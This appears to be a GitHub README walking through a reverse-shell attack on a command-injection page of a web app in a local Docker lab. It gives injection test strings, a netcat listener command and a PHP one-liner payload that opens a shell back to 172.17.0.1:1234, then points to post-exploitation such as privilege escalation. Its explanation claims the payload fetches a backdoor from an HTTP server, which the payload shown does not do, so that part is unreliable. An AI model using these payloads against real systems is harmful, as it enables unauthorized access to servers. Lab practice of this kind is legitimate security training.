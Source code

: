 # How-to-perform-reverse-shell
  - After successfully setting up the Docker container and deploying the backdoor script, the next steps involve identifying and exploiting vulnerabilities in the web application, specifically targeting OS command injection. Here's a detailed breakdown of what to do after setting up the Docker and backdoor:
## Identifying Vulnerabilities on the OS Command Injection Page

### Procedure:
- Navigate to the Vulnerability Section: Access the web application running inside the Docker container through your browser. Look for a menu or option labelled "Vulnerabilities" or similar.

![01](https://github.com/user-attachments/assets/591447ba-0361-40bd-b677-edc1049f726f)
![02](https://github.com/user-attachments/assets/a14fde97-ec16-4bf2-88fd-a6f3e18cb83f)


- Select Command Injection: Within the vulnerabilities section, identify and click on "Command Injection." This option typically brings you to a form or input field where commands can be injected.

![03](https://github.com/user-attachments/assets/b4bb4497-eb6d-442f-bf7a-c6acada2976b)
![04](https://github.com/user-attachments/assets/551001fb-3b03-43e1-aa1d-9fdece11113f)

### Understanding Command Injection:
- Command injection vulnerabilities occur when an application passes unsafe user-supplied data (in this case, input fields, query parameters, etc.) to a system shell. If the input is not properly sanitized, an attacker can execute arbitrary commands on the server.

- Test for Vulnerability. To test if the page is vulnerable, try injecting a simple command such as ; ls or && whoami. If the command is executed and the result is displayed (like listing the directory contents or showing the current user), then the application is vulnerable to OS command injection.

![05](https://github.com/user-attachments/assets/afe97bd7-b82a-4623-93ec-83752fa4654e)

## First : Run a Python HTTP Server
### Purpose:
- The Python HTTP server will host the backdoor script, allowing it to be served to the target machine.
### Command: 
- Open a new terminal and run the following command
`python3 -m http.server`

![06](https://github.com/user-attachments/assets/53b8ddce-d492-4f76-8b79-2e4ef70f94c4)

### Explanation: 
- This command will start a simple HTTP server that listens on port 8000 by default. The server will serve files from the directory in which the command is executed. Ensure that your backdoor script is in this directory, as it will be accessed via the web browser or a curl command from the target system.

![07](https://github.com/user-attachments/assets/02e8b468-4ac4-40f4-a906-c8cfaf299c3c)

## Find the Docker IP Address
### Purpose:
- Identifying the Docker container's IP address is crucial because it allows you to direct the backdoor connection back to your machine.
### Command:
In a new terminal, run the following command 
`ip a`

![08](https://github.com/user-attachments/assets/f90ff762-95e1-443b-b714-fe4dc480d423)
- this one
  
![09](https://github.com/user-attachments/assets/014ec44d-c709-4ab6-a95e-84379d5a692c)

### Explanation:
- his command displays all network interfaces and their associated IP addresses. Look for the `docker0` interface, which typically represents the Docker bridge network. The IP address associated with this interface is what you’ll use to direct the reverse shell.

## Set Up a Netcat Listener:
### Purpose:
- The Netcat listener will wait for an incoming connection from the target system, which will be initiated by the backdoor script.
### Command: 
Set up a listener on a specific port (e.g., 1234) using the following command

`nc -lvnp 1234`

![10](https://github.com/user-attachments/assets/c16ec49c-bbdc-4c7d-a91f-6e59ea6430c8)

### Explanation:
- The -l flag tells Netcat to listen for incoming connections, -v makes it verbose (to display the connection details), -n prevents DNS lookups, and -p specifies the port number to listen on. Once the backdoor script is executed on the target system, it will connect back to your machine on this port, giving you shell access.

## Execute the Reverse Shell: 
### Injection of Payload:
- With confirmation of the vulnerability, inject a payload that will download and execute your backdoor script from the Python HTTP server.
- Example command to inject

  `| php -r '$sock=fsockopen("172.17.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

  ![11](https://github.com/user-attachments/assets/e5223b26-aecd-4752-837c-33a74907d512)

### Explanation
- This command tells the server to fetch the backdoor script from your Python HTTP server and execute it using PHP. Once executed, the backdoor will initiate a connection to your Netcat listener.

## Gain Shell Access:
- Once the payload is successfully injected and executed, you should see a connection on your Netcat listener. This connection gives you shell access to the target system, allowing you to execute commands as if you were directly logged into the server.

![Screenshot 2024-08-15 002815](https://github.com/user-attachments/assets/0184def1-73cd-4bed-af7e-a1b92ad04dcc)

## Post-Exploitation:
- With shell access, you can now navigate the target system, explore files, escalate privileges, or perform any other post-exploitation activities necessary to achieve your objectives.

## Conclusion
- By following these steps, you’ll be able to exploit the OS command injection vulnerability to gain unauthorized access to the target system through a reverse shell. This highlights the critical importance of secure coding practices and the need for rigorous input validation and sanitization in web applications.
